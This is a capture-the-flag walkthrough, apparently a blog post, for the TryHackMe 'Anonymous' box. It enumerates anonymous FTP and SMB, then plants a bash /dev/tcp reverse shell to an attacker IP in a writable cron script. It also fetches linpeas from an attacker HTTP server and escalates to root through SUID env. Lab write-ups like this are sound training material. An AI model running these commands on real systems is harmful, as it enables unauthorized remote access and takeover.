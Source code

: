 ```yaml
---
layout: post
title: " Anonymous - TryHackMe"
date: 2020-07-13
ctf: true
excerpt: "Walkthrough for Anonymous on TryHackme"
tags: [Anonymous, TryHackMe, privilege escalation, script modification]
comments: false
---
```


Anonymous is a medium difficulty box on [TryHackMe](https://www.tryhackme.com). Below is a walkthrough of the steps involved to achieve root on this box.

First, let's scan the box with nmap with **nmap -sC -sV -T4 [machine ip]**. The results of this scan are as shown below.

![Anonymous nmap](/assets/img/Anonymous1.png)

It appears that we have ftp (21) open with anonymous access allowed, ssh (22), and smb (139/445) open. 

This are a total of 4 open ports, the answer to **Question 1**. FTP is running on port 21, the answer to **Question 2**. Ports 139/445 are running smb, the answer to **Question 3**. 

Since we can see that ftp is open anonymously, let's login and take a look with **ftp [machine ip]**. When prompted for the username/password, use **anonymous** for both of them. Once logged in, we can run **ls** to list the directory contents.

![Anonymous ftp connect](/assets/img/Anonymous2.png)

Let's use **cd scripts** to get into the script directory and then type **ls** to list it's contents. Three files are present. Let's run **mget \*** to download these files to view them locally.

![Anonymous ftp scripts directory](/assets/img/Anonymous3.png)

Let's use **bye** to close the ftp session and then take a look at these files. Let's start with **cat clean.sh**. This appears to be a script that removes everything in the /tmp directory and then logs it to **/var/ftp/scripts/removed_files.log**.

![Anonymous cat clean.sh](/assets/img/Anonymous4.png)

Next, let's take a look at removed_files.log with **cat removed_files.log**. It doesn't appear that there's anything useful in this, as it is the same log entry repeated several times.

![Anonymous cat removed_files.log](/assets/img/Anonymous5.png)

The last file, which is viewed with **cat to_do.txt**, states that anonymous logins should be disabled because they aren't safe.

![Anonymous cat to_do.txt](/assets/img/Anonymous6.png)

This is likely a hint that anonymous access is available in multiple places. Let's try to enumerate the smb shares next with **smbclient -L \\\\\\\\[machine ip]\\\\**. This will return 3 shares as shown above.

![Anonymous list smb shares smbclient](/assets/img/Anonymous7.png)

The smb share **pics** is the answer to **Question 4**. Let's try to connect to pics anonymously with **smbclient \\\\\\\\[machine ip]\\\\pics -U ""**. We are also able to connect anonymously and after running **ls**, we see that there are 2 pictures in this folder. Let's grab them both with **mget \***.

![Anonymous smbclient anonymous](/assets/img/Anonymous8.png)

Let's take a look at these two pictures. There's nothing suspicious on the pictures themselves, as they are just pictures of corgis. However, .jpg/.jpeg files can be used for steganography. Let's see if there's any hidden files inside. I ran stegcracker for a few minutes on both of these pictures and was not able to crack the password or confirm anything was hidden inside.

Let's go back to enumeration using rpcclient. Let's run **rpcclient [machine ip] -U ""**. Once connected, let's run **enumdomusers** to get the users on this victim host (namelessone) followed by **queryuser 0x3eb** and **getdompwinfo**.

![Anonymous rpcclient](/assets/img/Anonymous9.png)

While useful info, unless we wanted to spend a long time brute forcing the password, there had to be a simpler way to get in. At this point, I logged back in anonymously to the ftp server and noticed that we have read/write/execute on **clean.sh**. I wonder what would happen if we put in a reverse shell to run inside that script? On our local machine, let's open the **clean.sh** file that we downloaded earlier and modify it before we reupload it. Let's add in **bash -i >& /dev/tcp/[your attacker ip]/8080 0>&1** and save the file.

![Anonymous modify clean.sh](/assets/img/Anonymous10.png)

Next, in another terminal window on our attacker pc, run **nc -nvlp 8080** to open a listener on port 8080 that you specified in the clean.sh file above.

![Anonymous nc listener](/assets/img/Anonymous11.png)

Next, let's reconnect with the anonymous ftp site, go into the scripts directory and upload our modified clean.sh file.

![Anonymous clean.sh upload](/assets/img/Anonymous12.png)

Now, we just wait for a connection, as that script appeared to be ran as a cron job. Within a couple of minutes, we now have a shell.

![Anonymous reverse shell](/assets/img/Anonymous13.png)

We are running as namelessone, and after running **pwd** we can see we are in that user's home directory. We can run **ls** and we will see the user.txt file in this directory. **cat user.txt** will get you the answer to **Question 5**.

![Anonymous user.txt](/assets/img/Anonymous14.png)

Let's upgrade our shell so we can run some other commands that require a TTY. Let's upgrade with **python -c 'import pty; pty.spawn("/bin/sh")'**. Attempting to run **sudo -l** requires a password, which we do not have for the user we currently have access to. Let's copy linpeas over to do some enumeration.

First, on our attacker pc, run **python3 -m http.server** in the directory that linepeas.sh is in. Next, on the victim, run **wget http://[attacker ip]:8000/linpeas.sh**, and it should save in namelessone's home directory. Next, run **chmod 777 linpeas.sh** to make the script executable.

![Anonymous wget linpeas.sh](/assets/img/Anonymous15.png)

Now lets run this with **./linpeas.sh**. While this puts out a lot of information, there is a SUID file that it notices, **/usr/bin/env**.

![Anonymous SUID](/assets/img/Anonymous16.png)

[GTFOBins](https://gtfobins.github.io/) is a great site to look up ways to exploit executables in Linux. env can be used for privilege escalation with **./env /bin/sh -p**. Now, if we run **whoami** we are the root user! We can now run **cd /root** followed by **ls**. root.txt is in this file, so let's run **cat root.txt** to get the root flag. This is the final challenge and the answer to **Question 6**.

![Anonymous root.txt](/assets/img/Anonymous17.png)
